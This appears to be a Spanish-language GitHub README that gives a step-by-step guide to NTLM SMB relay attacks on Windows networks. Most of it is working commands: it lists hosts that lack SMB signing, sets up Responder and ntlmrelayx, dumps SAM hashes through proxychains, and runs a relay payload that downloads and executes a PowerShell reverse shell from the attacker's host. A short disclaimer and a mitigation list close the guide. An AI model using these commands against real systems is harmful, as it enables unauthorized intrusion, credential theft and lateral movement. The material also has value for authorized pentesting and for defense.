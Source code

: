 # NTLM SMB Relay Attack Guide


## 📌 Descripción
Guía técnica para realizar ataques de **NTLM Relay** contra sistemas Windows con SMB signing deshabilitado, permitiendo ejecución remota de comandos, robo de hashes y movimiento lateral.

## ⚠️ Requisitos Legales
- **Solo para pentesting autorizado o entornos de laboratorio**.  
- Nunca atacar sistemas sin permiso explícito.

---

## 🔧 Herramientas Necesarias
- **Kali Linux** (o distribución con herramientas preinstaladas).  
- **Impacket**: `sudo apt install impacket`.  
- **CrackMapExec**: `sudo apt install crackmapexec`.  
- **Responder**: `sudo apt install responder`.  

---

## 🚀 Pasos del Ataque

### 1️⃣ Identificar sistemas vulnerables
```bash
crackmapexec smb 192.168.1.0/24 --gen-relay-list targets.txt
````
   
Salida esperada:
SMB   192.168.1.10    SIGNING:Not enforced  # ¡Vulnerable!

2️⃣ Configurar targets.txt
plaintext
Copy

smb://192.168.1.10
smb://192.168.1.20

3️⃣ Desactivar SMB/HTTP en Responder
 ```bash
/etc/responder/Responder.conf:
````
SMB = Off
HTTP = Off

4️⃣ Iniciar NTLM Relay
````bash
impacket-ntlmrelayx -smb2support -tf targets.txt -socks -debug
````
5️⃣ Iniciar Responder (en otra terminal)
```bash
sudo responder -I eth0
````

6️⃣ Explotación con ProxyChains

Editar socks4 127.0.0.1 1080
```bash
/etc/proxychains4.conf:
````
7 Poner la máquina en escucha con netcat
```bash
netcat -lvp 5555
````

## 💣 Paso clave: Forzar autenticación

## Ejecutar esto en CMD de la víctima:
```bash
net use \\192.168.1.100\fake-share /u:fakeuser fakepass
````
## O intentar acceder manualmente a:
```bash
\\192.168.1.100\carpeta-falsa
````
## 🎯 Explotación exitosa
## Cuando veas esto en ntlmrelayx:
[+] Authenticated against 192.168.1.10 (Windows 10)

## Opción A: Robar hashes
````bash
proxychains4 crackmapexec smb 192.168.1.10 -u '' -p '' --sam
````
## Opción B: Reverse Shell
## 1. Hostear shell.ps1 (Terminal 3)
```bash
python3 -m http.server 8000
````
## 2. Ejecutar relay con payload
```bash
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object Net.WebClient).DownloadString('http://TU_IP:8000/shell.ps1')\""
````

## 🔒 Medidas de protección
- Activar SMB Signing (GPO)
- Deshabilitar NTLM
- Bloquear tráfico SMB no esencial
- Monitorear eventos 4624 (Windows) con autenticaciones inusuales

⚠️ IMPORTANTE: Este ataque solo funciona si:
- La víctima tiene privilegios de administrador
- El servicio SMB está activo
- No hay SMB signing habilitado



